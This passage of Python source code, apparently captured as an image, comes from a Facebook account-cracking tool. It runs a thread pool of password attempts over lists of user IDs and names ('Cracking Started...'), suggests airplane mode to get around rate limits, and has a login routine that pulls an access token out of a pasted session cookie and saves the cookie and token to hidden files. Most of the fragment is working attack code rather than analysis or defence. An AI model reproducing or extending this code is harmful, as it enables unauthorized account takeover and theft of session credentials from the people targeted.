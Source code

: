             print(f"\r{A}Use flight (airplane) mode before use {S}")
            print(47*"-")
            print(f'{S} Total IDs : %s ' % len(self.id))
            print(f'{S} Cracking Started...')
            print(47*"-")
            with sarfrazssb(max_workers=30) as ssbworld:
                for zsb in self.id:
                   try:
                       uid, name = zsb.split('|')
                       sz = name.split(' ')
                       if len(sz) == 3 or len(sz) == 4 or len(sz) == 5 or len(sz) == 8:
                           pwx =  pw
                       else:
                            pwx =  pw
                            if 'methodA' in methods:
                                ssbworld.submit(self.methodA, uid, name, pwx)
                            elif 'methodB' in methods:
                                ssbworld.submit(self.methodB, uid, name, pwx)
                            elif 'methodC' in methods:
                                ssbworld.submit(self.methodC, uid, name, pwx)
                            elif 'methodD' in methods:
                                ssbworld.submit(self.methodD, uid, name, pwx)
                   except:pass
            result(oks,cps)   
            

def remove_Tc():
        os.system('rm -rf .token.txt .cookie.txt');print(f'\n{F}Logout Successfully ...')
        login()
        
def login():
    clear()
    print('\x1b[00m\tLogin Using Cookies') 
    try:
        fbcokis= input('\n\x1b[00mPut Cookies:\x1b[92m')
        fact = requests.get("https://adsmanager.facebook.com/adsmanager/", cookies = {"cookie":fbcokis},headers=head).text
        act = re.search("act=(.*?)&nav_source",str(fact)).group(1)
        ftoken = requests.get(f"https://adsmanager.facebook.com/adsmanager/manage/campaigns?act={act}&nav_source=no_referrer", cookies = {"cookie":fbcokis}).text
        eaab = re.search('accessToken="(.*?)"',str(ftoken)).group(1)
        open(".tokn.txt", "w").write(eaab)
        open(".cokis.txt", "w").write(fbcokis)
        token = open('.tokn.txt','r').read()
        info = requests.get('https://graph.facebook.com/me/?access_token='+token,cookies = {"cookie":fbcokis}).json()
        print(f"{R}Login Successfully")
        menu()
    except Exception as error: 
        os.system("rm -f .tokn.txt")
        print("\x1b[1;91m\n\t\t[!] Cookies Expired ")
        slp(2)
        login()
